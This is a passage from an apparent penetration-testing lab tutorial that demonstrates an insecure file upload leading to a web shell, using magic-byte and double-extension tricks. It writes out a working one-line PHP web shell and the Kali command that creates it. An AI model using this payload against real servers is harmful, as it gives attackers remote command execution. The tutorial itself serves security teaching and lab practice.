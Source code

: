**Mitigations:** Enforce strong passwords, remove default accounts, use SSH keys, enable fail2ban and rate-limiting, and enforce MFA.

---

## 6) File upload → web shell (step-by-step)
**Goal:** Demonstrate how insecure file upload checks can yield remote command execution (RCE) in the web server context.

### 6.1 Key concepts (brief)
- **Magic bytes:** File headers that reliably identify file types (e.g., GIF: `GIF89a`, PNG: `\x89PNG...`).  
- **Double-extension:** Filenames like `shell.png.php` can bypass naive checks.  
- **Webroot execution:** If uploads are stored in `/var/www/html/Uploads/` and PHP executes `.php` files, uploaded PHP can run.

### 6.2 Create the malicious payload (on attacker)
Create `shell.png.php` containing a fake GIF header followed by PHP:
```php
GIF89a<?php system($_GET['cmd']); ?>
```

On Kali:
```bash
cat > shell.png.php <<'EOF'  
GIF89a<?php system($_GET['cmd']); ?>  
EOF
```
![Create Payload File in Kali](screenshots/fileup-2.png)  

(Use the above as a single command or create the file in your editor.)

### 6.3 Upload via the web form
1. Open `http://fileupload.local/`.  
